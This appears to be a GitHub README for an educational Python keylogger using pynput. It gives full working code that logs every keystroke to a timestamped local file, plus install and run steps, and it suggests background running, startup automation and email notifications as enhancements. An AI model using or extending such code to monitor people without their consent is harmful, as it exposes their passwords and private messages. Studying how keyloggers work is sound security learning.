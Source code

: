 # Basic Keylogger

A simple educational keylogger built in Python using the pynput library. This project demonstrates how keyloggers work and is intended for educational purposes only.

## Overview

This project creates a basic keylogger that:
- Records all keystrokes on the system
- Logs them with timestamps to a text file
- Continues running until the Escape key is pressed
- Works on Kali Linux (and other Linux distributions)

## Disclaimer

**This software is for educational purposes only.** Using keyloggers without proper authorization is:
- Potentially illegal
- Unethical
- A violation of privacy

Always ensure you have explicit permission before monitoring any system or user.

## Prerequisites

- Kali Linux (or another Linux distribution)
- Python 3
- Administrative privileges (for installation)

## Installation Steps

### 1. Install the required Python package

Since Kali Linux uses an externally managed environment, we used the apt package manager instead of pip:

```bash
sudo apt install python3-pynput
```

### 2. Create a project directory

```bash
mkdir ~/keylogger_project
cd ~/keylogger_project
```

### 3. Create the keylogger script

Create a file named `keylogger.py` with the following code:

```python
from pynput.keyboard import Key, Listener
import logging
import time
import os

# Set up the logging configuration
log_dir = os.path.join(os.path.expanduser('~'), "keylogger_project")
if not os.path.exists(log_dir):
    os.makedirs(log_dir)

# Create log file with timestamp
log_file = os.path.join(log_dir, f"keylog_{time.strftime('%Y%m%d-%H%M%S')}.txt")

# Configure the logging
logging.basicConfig(
    filename=log_file,
    level=logging.INFO,
    format='%(asctime)s: %(message)s'
)

print(f"Keylogger started. Logging to {log_file}")
print("Press Esc key to stop the keylogger")

def on_press(key):
    try:
        # Log alphanumeric keys
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        # Log special keys
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    logging.info(f"Key released: {key}")
    
    # Stop the keylogger if Esc is pressed
    if key == Key.esc:
        print("Keylogger stopped")
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage

### Run the keylogger

```bash
python3 keylogger.py
```
![Alt text](https://github.com/AtejiEmmanuel/PRODIGY_CS_Tasks/blob/main/PRODIGY_CS_03/screenshots/task%203a.png?raw=true)
### Stop the keylogger

Press the **Esc** key to stop the keylogger properly. 

> Note: Using Ctrl+C will cause a KeyboardInterrupt and the program will not exit cleanly.

### View logged keystrokes

```bash
cat ~/keylogger_project/keylog_*.txt
```

This will display all captured keystrokes with their timestamps.
![Alt text](images/example.png)
## How It Works

1. **Listener Setup**: The script uses pynput's Listener to monitor keyboard events.
2. **Event Handlers**: 
   - `on_press()`: Logs when a key is pressed
   - `on_release()`: Logs when a key is released and checks for the Esc key to stop the program
3. **Logging**: All events are saved to a timestamped log file with detailed information

## Potential Enhancements

For legitimate use cases, this basic keylogger could be enhanced with:

- Background operation (running as a service)
- Startup automation
- Email notifications
- Log file encryption
- Advanced filtering options
- GUI for configuration

## Troubleshooting

### Common Issues:

1. **Permission Errors**: Ensure you have the necessary permissions to write to the log directory.
2. **Module Not Found**: If you get a "No module named 'pynput'" error, make sure you installed the package correctly.
3. **X Server Access**: For GUI applications, ensure the script has access to the X server.

## Resources

- [pynput Documentation](https://pynput.readthedocs.io/)
- [Python Logging Documentation](https://docs.python.org/3/library/logging.html)

